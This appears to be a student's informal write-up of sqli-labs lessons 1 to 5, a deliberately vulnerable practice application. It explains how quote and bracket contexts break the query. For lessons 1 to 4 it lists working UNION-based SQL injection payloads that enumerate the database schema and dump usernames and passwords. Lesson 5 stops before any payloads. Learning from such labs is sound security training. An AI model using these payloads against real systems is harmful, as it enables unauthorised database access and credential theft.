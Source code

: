 the questions which i have solved were les-1,2,3,4,5(partially) and i would explain the each and every step
les1:
	so when we give some random input as id=1 we can see the output out there so our main aim is to 
		1.break the query
		2.get the database
		3.get the relation
		4.dump the thing out 
	so when we type something fancy characters like 1' or 1/ we will be getting like 
		***''1'' LIMIT 0,1' so after balancing the quotes it looks like 
			'1'' limit 0,1 ==>1' limit 0,1 
				limit a,b is like a is the starting point and b is the number of records***
	this question is about:***"Breaking single quoted query"***
		so later on we need to find the attributes in the relation of the database so we will using an function order-by initially to just find the number of attributes nad later on we goes to the keyword union select which will combine the  attributes we inputted and gives us the output according to that 
		so by using database() we get the database used 
		so the payloads are:
		1.?id=-1 union select 1,group_concat(table_name),2 from information_schema.tables where table_schema='security'-- -         ***here we will be getting the relations under the db 'security' which consists the details of the master-database 'information_schema' and the relation 'table'***
		2.?id=-1' union select 1,group_concat(COLUMN_NAME),2 from information_schema.COLUMNS where TABLE_NAME = 'users' and table_schema='security'-- - ***this is for the getting the details of the relation users***
		3.?id=-1' union select 1,group_concat(username),group_concat(password)from security.users-- - ***for the final dumping***
	refered wiki.bi0s and 
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------	
les2-
		this is about:***just a simple integer***
		payloads used:
			?id=-1 union select 1,2,3-- -      ***since it's an integer and we can find error when we put ?id=-1'***
				?id=-1 union select 1,group_concat(table_name),2 from information_schema.tables where table_schema='security'-- -         ***here we will be getting the relations under the db 'security' which consists the details of the master-database 'information_schema' and the relation 'table'
				the details like username and password were present in the relation named 'users' so we need to access it and later on we need to get the names of the colums present in the relation 'users'***
				?id=-1 union select 1,group_concat(COLUMN_NAME),2 from information_schema.COLUMNS where TABLE_NAME = 'users' and table_schema='security'-- -  ***-->this retrives the attributes of the table users***
as we know the table we can simply get the details of username and password		
				?id=-1 union select 1,group_concat(username),group_concat(password)from security.users-- -  ----->***retreiving the username and password***
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
les3:
question is about: "single quote with brackets"
	payloads for dumping:
		when we do 1' we get the error ''1'') LIMIT 0,1' we can see that the double quotes aren't double quotes but they are 2 single quotes and we also have a brace at the end this look like "breaking single quote with bracket           String1 = ‘) OR 1 -- -
"
this can be written as '1 ' ') limit 0,1 which is similar to 1') limit 0,1
so let's proceed with this 1') limit 0,1
***id=-1')-- -***
***?id=-1') union select 1,2,database()-- -*** ==>this retrives the database where the details were stored
and now we need to retrive the table and the number of attributes and then dump
***?id=-1') union select 1,group_concat(table_name),2 from information_schema.tables where table_schema='security'-- -***
--now we got the tables and 'users' is our goal and we can retrive the number of attributes of the given relation
***?id=-1') union select 1,group_concat(COLUMN_NAME),2 from information_schema.COLUMNS where TABLE_NAME = 'users' and table_schema='security'-- -***
so we got the attributes and we need to get the username,password
***?id=-1') union select 1,group_concat(username),group_concat(password) from security.users-- -***
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
les-4:
question is about :double quotes with brackets
	payloads:
		when we do 1' we get the error ""1"") LIMIT 0,1" "breaking double quote with bracket           String1 = ") OR 1 -- -
"
this can be written as "1"") limit 0,1 which is similar to 1") limit 0,1
so let's proceed with this 1") limit 0,1
id=-1")-- -
?id=-1") union select 1,2,database()-- - ==>this retrives the database where the details were stored
and now we need to retrive the table and the number of attributes and then dump
?id=-1") union select 1,group_concat(table_name),2 from information_schema.tables where table_schema='security'-- -
--now we got the tables and 'users' is our goal and we can retrive the number of attributes of the given relation
?id=-1") union select 1,group_concat(COLUMN_NAME),2 from information_schema.COLUMNS where TABLE_NAME = 'users' and table_schema='security'-- -
so we got the attributes and we need to get the username,password
?id=-1") union select 1,group_concat(username),group_concat(password) from security.users-- -
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
i can succesfully install and execute the sqli-labs
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
les5:
	it's all about the double query injection
		in this we can't find any proper error which makes us to dump so we use some functions to dump the data